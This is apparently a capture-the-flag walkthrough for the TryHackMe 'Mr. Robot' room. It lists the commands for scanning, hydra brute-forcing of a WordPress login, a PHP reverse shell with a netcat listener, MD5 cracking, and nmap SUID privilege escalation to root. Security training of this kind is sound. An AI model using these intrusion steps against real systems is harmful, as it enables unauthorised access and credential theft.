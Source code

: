 # Mr. Robot CTF

## Initial Scan

Scan the target IP with nmap to identify open ports and services:

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_30_09](https://github.com/user-attachments/assets/a85bb534-6a81-4e13-b89d-36a6a281a1e6)
nmap -sC -sV -oA scan 10.10.95.162

Results: Three ports identified two ports are open.

## Web Exploration

Visiting the target IP in a web browser redirects to a unique and stylized web page inspired by the TV show "Mr. Robot." The web page offers several commands:

prepare: Displays a video.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_30_53](https://github.com/user-attachments/assets/2b68247d-8759-41a5-b167-427367449fe3)

fsociety: Displays a video.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_31_45](https://github.com/user-attachments/assets/8747e6a4-21df-482f-b3b9-a9dc24afbec2)

inform: Shows pictures.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_32_12](https://github.com/user-attachments/assets/f5a7297f-4158-498a-a22d-9fdf75059b9e)

question: Shows pictures.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_32_59](https://github.com/user-attachments/assets/6ca56c64-0738-4211-9138-62ea1fbcae04)

wakeup: Shows a film.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_33_35](https://github.com/user-attachments/assets/36e3ecb2-f3d2-42fc-822d-fa09ab4bdd87)

join: A prompt to join.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_34_07](https://github.com/user-attachments/assets/7984608a-3b0c-42c5-8676-3692738125df)

## Source Code Analysis

View the source code of the website.
Findings: Message YOU ARE NOT ALONE.
Hint: Suggests checking 'robots'

## First Key and Wordlist

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_37_19](https://github.com/user-attachments/assets/3331d791-c00a-4565-9568-395c40d7b4d2)

Navigate to http://10.10.152.21/robots.txt.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_37_45](https://github.com/user-attachments/assets/a0ea2758-d095-4c52-809f-5938c24e04cb)

Findings: First key and fsocity.dic wordlist.
Flag 1

## Directory Enumeration

Use gobuster to find additional web pages:
Command: `gobuster dir -u http://10.10.152.21/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
   - Found the `/wp-login` page indicating a WordPress site.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_38_21](https://github.com/user-attachments/assets/6b36f9b2-41a4-440b-a633-0b2416077cbe)

## Brute Forcing Login Credentials

Attempting to brute force the username using fsocity.dic as the wordlist:
Command: `hydra -L fsocity.dic -p test 10.10.152.21 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:invalid username" -t 30`
   - Successfully found the username: `Elliot`.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_54_17](https://github.com/user-attachments/assets/89acda0a-d2f5-4ee0-aee1-b9b2b5c9adb6)

Next, brute forcing the password for the username Elliot:
Command: `hydra -l Elliot -P fsocity.dic 10.10.152.21 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=302"`
   - Successfully found the password ER28-0652 and logged into the WordPress admin panel.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_55_26](https://github.com/user-attachments/assets/85f14756-1c5f-4a27-b014-3aea64248e35)

Upon successful login, we can now upload plugins via the WordPress admin panel.

## Reverse Shell via WordPress Editor

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_01_58_16](https://github.com/user-attachments/assets/b1bb2c7b-3811-4ab7-b47b-f9f818d962d7)

Modify PHP Reverse Shell script

<div style="background-color: black; color: white; padding: 5px; border-radius: 5px;">
<pre><code>
   https://github.com/pentestmonkey/php-reverse-shell
</code></pre>
</div>


Upload the modified script

## Start a netcat listener on the local machine:

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_08](https://github.com/user-attachments/assets/9d240f2e-216d-45c4-934f-de79df8b07e4)

Command: `nc -lvnp 1234`

## Activate Reverse Shell

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_08](https://github.com/user-attachments/assets/a9be1d60-40d1-4a1a-98d2-2b2f966f2f77)

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_08_13](https://github.com/user-attachments/assets/13755c19-9328-4952-b706-b78a6c2e1e9e)

The /home/robot directory contains a file password.raw-md5 with the following content:
robot:c3fcd3d76192e4007dfb496cca67e13b

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_09_25](https://github.com/user-attachments/assets/1dd19792-2a52-448e-b570-db4e7291ba74)

## Crack the MD5 hash using Cracknation

Result: Password is `abcdefghijklmnopqrstuvwxyz`.

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_10_25](https://github.com/user-attachments/assets/c2e15024-e70b-498f-bf5e-d8d2cdf6d2ae)

## Switching User

python -c 'import pty; pty.spawn("/bin/bash")'
su robot
Password: abcdefghijklmnopqrstuvwxyz

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_13_18](https://github.com/user-attachments/assets/da5bf96c-57e0-477b-82c5-455a6bd1be1a)

Flag 2

## Find files with SUID bit set:

find / -perm -4000 2>/dev/null

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_20_47](https://github.com/user-attachments/assets/6e01275c-39f1-42e8-a01d-593e0284bddb)

Noticed nmap binary.

## Use nmap for privilege escalation (referencing GTFOBins):

nmap --interactive
!sh

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_21_09](https://github.com/user-attachments/assets/ca3388dd-a162-4497-968b-9a92148f2b84)

![VirtualBox_kali-linux-2024 2-virtualbox-amd64_26_07_2024_02_23_17](https://github.com/user-attachments/assets/8a2f1308-99db-4820-a1e3-e57397be19c1)

Locate the final key in the /root directory.
Flag 3

## Tools Used
   ### Nmap: 
   For initial scanning and service enumeration.
   ### Gobuster: 
   For directory enumeration.
   ### Hydra: 
   For brute-forcing login credentials.
   ### Netcat: 
   For establishing a reverse shell.
   ### PHP Reverse Shell: 
   Script for reverse shell access via WordPress.
   ### GTFOBins: 
   For privilege escalation techniques.

## Flags
First Key: Found in `robots.txt`.

Second Key: Found in `/home/robot`.

Final Key: Found in `/root`.

## Conclusion
This detailed walkthrough guides you through solving the Mr. Robot CTF challenge on TryHackMe. It covers all steps from initial reconnaissance, brute-forcing login credentials, gaining shell access, and escalating privileges to retrieve all flags. The journey mirrors the intriguing elements of the Mr. Robot TV show, making it a fun and educational experience.
